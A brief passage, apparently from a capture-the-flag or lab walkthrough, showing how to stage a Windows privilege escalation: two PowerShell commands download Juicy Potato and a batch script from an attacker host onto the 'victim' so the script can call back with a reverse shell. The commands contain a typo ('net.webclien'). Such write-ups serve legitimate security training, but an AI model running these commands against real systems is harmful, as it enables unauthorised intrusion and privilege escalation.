

download jp.exe & shell.bat to victim
lets navigate to the /Users/Public/Downloads directory and use powershell to download both juicy potato and our that batch script juicy potato will run that will call a reverse shell back to us as rootpowershell IEX(new-object net.webclien).downloadfile('http://10.10.14.62/shell.bat', 'C:\Users\Public\Downloads\shell.bat')

powershell IEX(new-object net.webclien).downloadfile('http://10.10.14.62/jp.exe', 'C:\Users\Public\Downloads\jp.exe')

